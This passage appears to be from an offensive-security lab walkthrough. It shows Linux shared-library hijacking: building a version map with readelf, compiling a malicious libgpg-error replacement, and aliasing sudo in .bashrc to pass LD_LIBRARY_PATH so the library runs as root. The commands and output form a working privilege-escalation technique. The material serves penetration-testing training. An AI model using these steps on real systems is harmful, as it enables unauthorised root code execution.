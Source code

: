 But we still see an error which is due to the fact that `libgcrypt` requires a version from associated libraries.

We can fix this with the help of a map file that identifies particular symbols as being associated with a given version of the library. We run the `readelf` command but now omitting the "int"
```bash
offsec@linuxvictim:~/ldlib$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gpgrt_onclose;
_gpgrt_putc_overflow;
gpgrt_feof_unlocked;
gpgrt_vbsprintf;
...
```

We save the result into a file `gpg.map`:
```bash
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
gpgrt_feof_unlocked;
gpgrt_vbsprintf;
}
```

We can now recompile it, this time adding `--verions-script` to include the `gpg.map` file for the library:
```bash
offsec@linuxvictim:~/ldlib$ gcc -Wall -fPIC -c -o hax.o hax.c
offsec@linuxvictim:~/ldlib$ gcc -shared -Wl,--version-script gpg.map -o libgpgerror.so.0 hax.o
```

Now, we can run the `top` command without any issues:
```bash
offsec@linuxvictim:~/ldlib$ top
DLL HIJACKING IN PROGRESS
top - 14:55:15 up 9 days, 4:35, 2 users, load average: 0.01, 0.01, 0.00
Tasks: 164 total, 1 running, 92 sleeping, 0 stopped, 0 zombie
...
```

We verify it worked by going to the `/tmp` directory:
```bash
offsec@linuxvictim:~/ldlib$ ls -al /tmp/haxso.txt
-rw-rw-r-- 1 offsec offsec 0 Jul 10 17:12 /tmp/haxso.txt
```

Since sudo would still not pass `LD_LIBARY_PATH`, we have to modify that sudo alias in`.bashrc` again to get around it:
```bash
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```

We can now run `top` with or without sudo to include our malicious library:
```bash
offsec@linuxvictim:~/ldlib$ source ~/.bashrc
offsec@linuxvictim:~/ldlib$ sudo top
DLL HIJACKING IN PROGRESS
top - 14:51:20 up 6 days, 6:03, 5 users, load average: 0.00, 0.00, 0.00
...
offsec@linuxvictim:~/ldlib$ ls -al /tmp/haxso.txt
-rw-r--r-- 1 root root 0 Aug 11 14:51 /tmp/haxso.txt
```
